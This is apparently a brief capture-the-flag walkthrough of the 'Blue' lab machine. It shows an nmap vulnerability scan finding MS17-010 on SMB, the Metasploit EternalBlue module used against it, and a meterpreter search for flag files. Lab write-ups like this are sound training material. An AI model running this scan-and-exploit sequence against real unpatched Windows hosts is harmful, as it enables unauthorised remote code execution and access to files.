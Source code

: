 6 AUG 2021 

# challenge : blue 
ip : 10.10.94.186


SCANNING
=========

intial
--------
$nmap -Pn -sV -v --script vuln 10.10.94.186 -oN nmap/intial


`````bash
PORT      STATE    SERVICE            VERSION
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)

`````

````bash
Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE

````
using: 

exploit/windows/smb/ms17_010_eternalblue    

modify RHOSTS and LHOSTS


`````bash


meterpreter > search -f flag*
Found 6 results...
    c:\flag1.txt (24 bytes)
    c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk (482 bytes)
    c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk (848 bytes)
    c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk (2344 bytes)
    c:\Users\Jon\Documents\flag3.txt (37 bytes)
    c:\Windows\System32\config\flag2.txt (34 bytes)

`````


# typical eternal blue exploitation .    
